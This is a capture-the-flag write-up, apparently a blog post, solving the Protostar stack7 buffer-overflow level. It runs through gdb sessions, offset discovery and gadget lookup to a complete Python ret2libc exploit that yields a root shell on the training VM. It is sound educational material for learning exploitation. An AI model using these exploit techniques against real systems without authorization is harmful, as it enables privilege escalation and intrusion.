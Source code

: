 ```yaml
---
title: Protostar Writeup - stack7
updated: 2018-10-14 16:30
---
```


## Protostar - stack7

Let's move on to the next level of Protostar. This is similar to the previous challenge.
Let's take a look at he code and see what differences are present.

```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
	char buffer[64];
	unsigned int ret;

	printf("input path please: "); fflush(stdout);

	gets(buffer);

	ret = __builtin_return_address(0);

	if((ret & 0xb0000000) == 0xb0000000) {
		printf("bzzzt (%p)\n", ret);
		_exit(1);
	}

	printf("got path %s\n", buffer);
	return strdup(buffer);
}

int main(int argc, char **argv)
{
	getpath();
}
```

So same stuff, but a different restriction on the return address... interesting. Let's take a look at what the address points to.

```sh
(gdb) break main
Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
(gdb) r
Starting program: /opt/protostar/bin/stack7 

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack7/stack7.c:28
28      stack7/stack7.c: No such file or directory.
        in stack7/stack7.c
(gdb) info proc map
process 5409
cmdline = '/opt/protostar/bin/stack7'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
        0xb7e96000 0xb7e97000     0x1000          0        
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0        
        0xb7fe0000 0xb7fe2000     0x2000          0        
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
```

As we can see from the map above, we're restricted from returning to libc. This is apparent from the `0xb00000000` check in the C code.
So how can we counter this? After digging a bit, I came across ret2code. Basically you make use of addresses of the binary itself.
From the map above it's clear that we can do so. But what do we do? That is the question. From the previous write up we know that we can
fake a stack frame and gain a root shell. Can we do that here somehow?

It is possible only if we can evade the check. If we do evade the check we can then reuse our ret2libc attack. Makes sense.
One way could be to immediately return from the function to completely avoid the check. This seems like a viable strategy.
There are many such ROP chains(of instructions) which can be used to craft our exploits. These instructions are also known as
ROP gadgets(pretty cool eh?).

Here's what a standard calling convention looks like taken from [here](https://en.wikipedia.org/wiki/X86_calling_conventions#Caller_clean-up).:

```assembly
caller:
        ; make new call frame (some compilers may produce an 'enter' instruction instead)
        push    ebp       ; save old call frame
        mov     ebp, esp  ; initialize new call frame
        ; push call arguments, in reverse (some compilers may subtract the required space from the
        ; stack pointer, then write each argument directly, see below. The 'enter' instruction can also do something similar)
        ; sub esp, 12 ; 'enter' instruction could do this for us
        ; mov [ebp-4], 3 ; or mov [esp+8], 3
        ; mov [ebp-8], 2  ; or mov [esp+4], 2
        ; mov [ebp-12], 1  ; or mov [esp], 1
        push    3
        push    2
        push    1
        call    callee    ; call subroutine 'callee'
        add     eax, 5    ; modify subroutine result (eax is the return value of our callee,
                          ; so we don't have to move it into a local variable)
        ; restore old call frame (some compilers may produce a 'leave' instruction instead)
        ; add   esp, 12   ; remove arguments from frame, ebp - esp = 12.
                          ; compilers will usually produce the following instead, which is just as fast,
                          ; and, unlike the add instruction, also works for variable length arguments
                          ; and variable length arrays allocated on the stack.
        mov     esp, ebp  ; most calling conventions dictate ebp be callee-saved,
                          ; i.e. it's preserved after calling the callee.
                          ; it therefore still points to the start of our stack frame.
                          ; we do need to make sure callee doesn't modify (or restores) ebp, though,
                          ; so we need to make sure it uses a calling convention which does this
        pop     ebp       ; restore old call frame
        ret               ; return
```

The instructions we're particularly interested in are the `pop x` and `ret` at the end of the above section.
Using those two instructions we can exit from a fucntion. Thinking of it we don't even need the `pop x`.
This simplifies our task. If we did have to use `pop` to restore the previous stack frame(which is not required in this case).
That's why a `ret` is sufficient.

Let's get started, first let's find the IP offset. Using our trustworthy pattern...

```python
>>> cyclic_metasploit(128)
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa...0Ab1Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
```

```sh
(gdb) r
Starting program: /opt/protostar/bin/stack7 
input path please: Aa0Aa1Aa2Aa3...Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae
got path Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7A...Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```

```python
>>> cyclic_metasploit_find(0x37634136)
80
```

So we know our padding is 80 bytes. Now lets get the address of ret from the binary...

```sh
$ objdump -D stack7 | grep ret
 8048383:       c3                      ret    
 8048494:       c3                      ret    
 ...
 80485f9:       c3                      ret    
 8048617:       c3                      ret    
```

Let's make use of the first address. Now we need the base address of libc which we have from the above proc map.
So that's at `0xb7e97000`. Now let's get the addresses of system and exit.

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
```

Notice how the functions are at within the restricted addresses. But this doesn't matter since we're avoiding the check.
That's why our ret2libc attack works again. One final thing we require is the shell string, which we can get the same way we did last time.

```sh
$ strings -a -t x /lib/libc-2.11.2.so
 11f3bf /bin/sh
```

Keep in mind that this is the offset and not the location of the shell string, we'll have to add this offset to libc's address to get the actual
address. Using all this, let's craft our exploit.

```python
import struct

padding = 'A' * 80

ret_addr = struct.pack("I", 0x8048383)
libc_start_addr = 0xb7e97000
shell_string_offset = 0x11f3bf
shell_string_addr = struct.pack("I", libc_start_addr + shell_string_offset)
system_addr = struct.pack("I", 0xb7ecffb0)
exit_addr = struct.pack("I", 0xb7ec60c0)

def go():
    payload = padding
    payload += ret_addr
    payload += system_addr
    payload += exit_addr
    payload += shell_string_addr
    print payload

go()
```

A quick and diry exploit, nothing fancy. Let's run it...

```sh
$ (python /tmp/exploit7.py; cat) | ./stack7
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

Easy peasy. Those are all of the stack exploits. If you've come so far, then good job, you now have basic understanding of why bufferoverflows are bad.
A word of caution...these techniques dont work anymore...at least not this easily. You have protections like DEP and ASLR which are put in place to prevent these kinds of attacks.

P.S.: If you like this blog please do feel free to share it with your friends :).

